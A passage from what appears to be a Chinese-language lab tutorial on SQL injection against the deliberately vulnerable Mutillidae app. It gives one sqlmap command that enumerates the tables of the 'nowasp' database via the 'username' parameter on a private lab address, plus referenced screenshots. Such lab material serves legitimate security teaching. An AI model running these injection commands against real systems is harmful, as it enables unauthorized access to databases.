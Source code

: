 ![image-20220418163828174](/img/security/image-20220418163828174.png)

3.获取`nowasp`数据库中的信息

`sqlmap -u "http://192.168.52.131/mutillidae/index.php?page=user-info.php&username=jotto&password=jotto&user-info-php-submit-button=View+Account+Details" -p "username" -D "nowasp" --tables  `

![image-20220418164214968](/img/security/image-20220418164214968.png)

